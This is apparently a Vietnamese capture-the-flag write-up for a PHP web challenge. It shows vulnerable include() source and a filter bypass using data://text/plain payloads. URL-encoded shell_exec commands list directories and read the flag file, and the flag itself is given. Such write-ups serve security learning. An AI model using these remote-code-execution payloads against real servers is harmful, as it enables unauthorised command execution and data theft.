



# WEB_1

## Description 

```
mấy đứa đừng hack máy anh nhé .-.
mai anh còn đi làm nên đừng fuzzing nữa nhé ;(((
nhắc lại thương anh còn đang tích tiền cười vợ =(((
đừng hack máy anh
```
## Solution 

Do server đã bị hack tuy nhiên mk đã nhanh trí chụp lại source để tự built trên local , viết cái writeup này ==))

> Source code 

```
<?php
	if (!isset($_GET['file'])){
	    show_source(__file__);
	    exit(1);
	}

	$content = $_GET["file"];


	$filter_1 = "/^data(:)*(\/)*text(\/)*plain(;)*base64/i";
	$filter_2 ="/^http./i";

	if(preg_match($filter_1,$content)){
	    exit("Hacking not allowed here");
	}
	if(preg_match($filter_2,$content)){
	    exit("It's covid time, Do not go outside");
	}


	include $content;

	echo "<hr>";
	echo 'Keep moving forward<br />_Walt Disney_<br>';
?>

//Made in  dungdm@

```

Từ source ta có thể thấy có params file được truyền vào bằng GET và giá trị của nó sẽ được gán cho $content , sau đó biến này sẽ được truyền vào *include* để import file vào .

Đến đây có hai khả năng mà mình nghĩ đến :
   + Directory Traversal , tuy nhiên sau khi thử một số payload để đọc các file đặc biệt thì dường như không có hiệu quả .
   + LFI , lỗi này thì quá rõ ràng với dấu hiệu *?file=* và *include* và đây cũng là vuln trong chall này .

File Inclusion cho phép kẻ tấn công có thể xem các tệp trên máy chủ từ xa mà không cần nhìn thấy hoặc có thể thực thi các mã vào 1 mục tiêu bất kì trên trang web (source:https://viblo.asia/p/file-inclusion-vulnerability-exploit-4P856NMa5Y3).

Sau khi lang thang trên payloadsallthethinks(https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter) mk tìm được một số payloads khả thi .

  + Đầu tiên mk nghĩ tới việc dùng *php://filter/convert.base64-encode/resource=* để đọc source file nhưng do không scan được nên vấn đề là sẽ ko biết được có file nào ẩn không mà đọc có mỗi file index.php thì được cho rồi :)) 
  + Sau ý tưởng đầu thất bại mk có tìm thử 1 số file mặc định hay đặc trung thì tìm đc file robots.txt có dạng :
  ```
  User-agent: *
  Disallow: /flag123456789.php
  ```
  hớn hở mở file này nhưng đời ko như là mơ *NOT FLAG TRY HARDER*
  + Sau một quá trình đi lung tung thì nhìn lại source code , ko bt tác giả filter cái data:// làm gì và với việc LFI cũng có thể dùng data:// để RCE thì mk nghĩ ôi thôi chắc là hướng này rồi .

Một chút về data_URIs ```data:[<mediatype>][;base64],<data>``` , ta có thể thấy rõ cấu trúc của nó ở đây :

  + Đầu tiên là cái mime để xác định kiểu dữ liệu nếu bỏ qua sẽ mặc định là text/plain .
  + ;Base64 để encode những dữ liệu ở dạng nhị phân nếu dữ liệu của bạn ở dạng văn bản thì có thể bỏ qua .

Dựa vào các đặc trung trên ta có payloads sau :
> payloads : data://text/plain,<?php phpinfo();?>

Sau khi hiển thị được phpinfo() tưởng chừng giải quyết được vấn đề tuy nhiên sau khi tiến hành rce lại ko đc :

> payloads : data://text/plain,<?php echo shell_exec('ls');?>

Và mình mất khá nhiều thời gian cho lỗi này sau một hồi betak thì tác giả hint là cần encode url payloads vì một số kí tự đặc biệt sẽ khiến paylaods ko chạy đúng cách . Thế nhưng vẫn ko được lần này là do server chạy win mà mk dùng command linux mặc dù khi phpinfo mk có thấy rõ ràng server là win (gà vl).

Do không có nhiều kiến thức về command win nên phải nhờ hint tới tấp của tác giả cuối cùng cũng khai thác được :

> ?file=data%3A%2F%2Ftext%2Fplain%2C%3C%3Fphp%20echo%20shell_exec%28%27dir%20%2A%27%29%3B%3F%3E



> ?file=data%3A%2F%2Ftext%2Fplain%2C%3C%3Fphp%20echo%20shell_exec%28%27dir%20%27%29%3B%3F%3E



>?file=data%3A%2F%2Ftext%2Fplain%2C%3C%3Fphp%20echo%20shell_exec%28%27cd%20s3cr3t_m0Th3r_PhucDu%26type%20flag.txt%27%29%3B%3F%3E



## Flag

KCSC{G00dJob_bae______G00000000000000000000000000000000DJ0000000b_GoodJ0b____Gudj0b}


